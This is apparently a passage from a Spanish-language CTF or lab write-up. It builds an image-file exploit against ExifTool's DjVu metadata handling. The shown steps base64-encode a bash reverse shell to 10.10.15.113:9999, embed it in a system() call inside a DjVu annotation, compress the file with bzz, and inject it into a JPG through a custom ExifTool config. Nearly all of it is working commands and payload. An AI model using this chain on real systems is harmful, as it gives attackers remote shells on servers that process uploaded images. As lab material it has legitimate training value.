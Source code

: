 ```console
p3ntest1ng:~$ sudo apt install djvulibre-bin
```

Ahora creamos un archivo con el siguiente contenido, lo codificamos en base64 por si acaso:

```console
p3ntest1ng:~$ echo 'bash -i >& /dev/tcp/10.10.15.113/9999 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMTMvOTk5OSAwPiYxCg==
p3ntest1ng:~$ vi payload
```

```
(metadata "\c${system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMTMvOTk5OSAwPiYxCg== | base64 -d | bash')};")
```

Comprimimos nuestro payload siguiendo las instrucciones del artículo:

```console
p3ntest1ng:~$ bzz payload payload.bzz
```

Creamos el exploit tal y como se indica:

```console
p3ntest1ng:~$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

Ahora debemos crear un archivo de configuración llamado **`configfile`** con el siguiente contenido:

```console
p3ntest1ng:~$ vi configfile
```

```
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end%
```

Por último, insertamos el archivo malicioso dentro de cualquier .jpg válido utilizando **`Exiftool`**

```console
p3ntest1ng:~$ exiftool -config configfile '-HasselbladExif<=exploit.djvu' rana.jpg
```
